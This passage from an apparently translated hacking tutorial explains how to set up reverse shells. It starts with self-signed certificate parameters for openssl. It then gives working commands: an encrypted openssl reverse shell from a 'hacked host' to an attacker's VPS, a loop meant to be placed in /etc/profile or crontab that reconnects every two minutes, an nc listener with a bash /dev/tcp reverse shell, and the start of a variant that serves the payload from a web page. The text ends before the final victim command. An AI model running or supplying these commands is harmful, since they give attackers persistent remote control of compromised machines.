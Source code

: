     # normally the commands need your a lot input as its additional description and messages, but you can only press Enter thoroughly for convenience

Sometimes you may think can we generate a unlimited days expiry, but sadly it cannot generate a Asymetric secrets without specific expiry. However, you can point a very huge days as its expiry, but normally the clients would not trust such a secret certificate because of the too massive number, such as browers. Normally you can generate one year or 3 years as its expiry.

Parameters:

  - req: create and deal with certificate
  - -x509: it is a self-signed certificate, rather than certificate signing request(CSR)
  - -newkey rsa:2048: generate a new RSA private secret, and demand the length of the secret is 2048 bit.
  - -keyout key.pem: set up the private key's output path
  - -out cert.pem: set up the certificate (public key)'s output path
  - -days 365: expiry time is 365 days
  - -nodes: the generated private key doesn't need secert protection

Use the attacker's VPS listens on port 2333:

    openssl s_server -quiet -key key.pem -cert cert.pem -port 2333

It creates a SSL/TLS server on 2333 port, and then execute the command on hacked host to reverse its shell:

    mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <VPS_IP>:2333 > /tmp/s; rm /tmp/s

Then hacker would gain a shell. Sometimes you may write it into `/etc/profile`, `crontab` or `screen`, you can input such command, which makes the reverse shell connect you per 2 mins:

    while true; do
        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER_IP>:2333 > /tmp/s; rm /tmp/s
        sleep 120
    done

### simply reverse bash shell

Attacker's VPS listens on port 2333:

    nc -lvvp 2333

Attacker's host execute such a command:

    /bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1

### hidden protocal simply

Attacker creates `index.html` on his public server, and the raw content is:

    /bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1

Hacked computer executes such one command:
    